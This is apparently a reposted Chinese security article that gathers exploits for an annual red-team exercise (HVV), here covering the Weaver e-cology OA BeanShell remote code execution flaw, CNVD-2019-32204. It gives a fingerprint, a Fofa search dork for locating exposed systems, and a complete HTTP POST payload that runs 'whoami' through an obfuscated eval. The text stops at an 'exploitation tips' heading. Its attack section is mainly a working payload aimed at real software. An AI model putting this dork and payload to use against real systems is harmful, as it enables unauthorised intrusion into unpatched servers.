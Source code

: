 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/o_WjFrecBikhUBkmtGsA8A)

以下内容来源于乌云安全  提笔杂货铺   

 一年一度的HVV开始了，结合网上已公布的POC，总结了一部分最新的漏洞利用及修复方式，供大家参考。

1

  

泛微OA Bsh 远程代码执行漏洞
-----------------

  

**1.** **漏洞简介**

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

**2.** **影响组件**泛微OA

**3.** **漏洞指纹**

`Set-Cookie: ecology_JSessionId=ecology/weaver/bsh.servlet.BshServlet`

**4. Fofa Dork**

`app="``泛微-协同办公OA"`

**5.** **漏洞分析**

泛微OA E-cology远程代码执行漏洞原理分析 – FreeBuf互联网安全新媒体平台  
https://www.freebuf.com/vuls/215218.html

https://github.com/beanshell/beanshell

http://beanshell.org/manual/quickstart.html#The_BeanShell_GUI

**6.** **漏洞利用**

Vulnerability-analysis/0917/weaver-oa/CNVD-2019-32204 at master · myzing00/Vulnerability-analysis  
https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

`POST /weaver/bsh.servlet.BshServlet HTTP/1.1`

`Host: xxxxxxxx:8088`

`Accept: */*`

`Accept-Language: en`

`User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)`

`Connection: close`

`Content-Length: 98`

`Content-Type: application/x-www-form-urlencoded`  

`bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

**7.** **利用技巧**
